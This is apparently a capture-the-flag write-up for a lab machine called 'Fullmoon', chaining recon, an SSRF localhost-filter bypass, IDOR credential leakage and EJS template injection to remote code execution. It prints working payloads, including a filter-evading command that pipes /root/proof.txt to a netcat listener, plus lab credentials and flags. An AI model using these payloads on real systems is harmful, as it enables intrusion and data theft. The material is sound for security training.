# **Fullmoon**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.152.128
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.152.128 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

This gives some interesting endpoints such as /admin,/login which those requires authentication.

 

## **Exploit SSRF to bypass access controls and retrieve sensitive data**

- In Free Demo page, there is an input to provide wensite url, so try to test for SSRF for this input.

 

When try payload url=""http://127.0.0.1", it gives localhost is not allowed.

 

- So try using 0.0.0.0, and now you can see it works.

 

## **Utilize IDOR to access restricted screenshots and uncover admin credentials.**
There is a screenshot with value "screenshots/fullmoon-demo-screenshots-<id>.png" in the response based on id. So we can try to do IDOR for other ids.

- I receive a 403 if I try to access that image directly from url.

 


- So what we can try to using this "Analyze Now" feature, we will provide that url so find out if we can access it .

```
http://0.0.0.0/screenshots/fullmoon-demo-screenshots-7.png
```

 

- We found the image is rendered, so open it in a new tab. Then you can find the admin username and password here.

 

- Try to login using these admin credentials, Then you can find the local.txt flag here.

username: admin and password: fQ86z6TxMncXCzmv2NY5




### local.txt flag:  f27e43abee7efa566713f9669e361c5f
---

## **PROOF.TXT**

- In the template section, there is an option to add template. Here we can see its using EJS syntax for dynamic rendering. So we can try to test for template injection here.

```
<%= 3*3 %>
```


- From the Reports page try to select the newly created template, here we can see its SSTI is confirmed because its displayed as 9.



- Now perform EJS template injection to achieve remote code execution.

Payload:
```
<%= process.mainModule.require("child_process").execSync("id").toString() %>
```
 
But after saving the payload it got converted to : .mainModule.("child_").Sync("id").toString() which most likely due to some filtering in source code.

- There is an Export Backup option through the source code can be downloaded. In server,js file we can confirm the keywords such as process, require and exec are getting stripped.



- To bypass we can use below payload.

```
<%= proprocesscess.mainModule.requrequireire('child_procprocessess').exexecec("cat /root/proof.txt | nc 192.168.45.165 443").toString() %>?
```

- Start netcat on port 443 in our Kali machine to see the response.
```
nc -nlvp 443
```

- In the netcat logs we can now find the proof.txt flag.



### proof.txt flag: 90a1ddfb1f6eac9d7c603e080483125e 


